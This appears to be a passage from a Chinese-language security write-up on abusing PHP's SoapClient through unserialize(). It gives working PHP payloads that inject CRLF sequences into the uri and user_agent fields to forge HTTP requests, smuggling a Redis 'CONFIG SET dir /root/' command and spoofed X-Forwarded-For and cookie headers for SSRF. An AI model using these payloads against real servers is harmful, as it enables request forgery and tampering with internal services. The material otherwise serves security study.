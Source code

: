 大概了解一下`SoapCLient`是如何使用的

一般来说有两种常用的连接方法，一种是使用wsdl文件，另一种是直接连接远程服务。

对于第一种方法，wsdl文件可以放在本地，也可以是通过远程引用，具体方法如下：

> \$soap = new SoapClient("file.wsdl");

另一种方法是不提供wsdl的，具体如下：
> \$soap = new SoapClient(null,array("location"=>"服务地址","uri"=>"命名空间"));

如果还有更多的参数是可以通过数组去添加的

```php
<?php
$a = new SoapClient(null,array('uri'=>'http://example.com:5555', 'location'=>'http://example.com:5555/aaa'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```
当你反序列化得到 `$c`的时候 会自动执行`__call()`方法

还可以构造
```php
<?php
$poc = "CONFIG SET dir /root/";
$target = "http://example.com:5555/";
$b = new SoapClient(null,array('location' => $target,'uri'=>'hello^^'.$poc.'^^hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa); 
echo urlencode($aaa);

//Test
$c = unserialize($aaa);
$c->notexists();
```

来看一个poc
```php
<?php
$target = "http://example.com:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
```
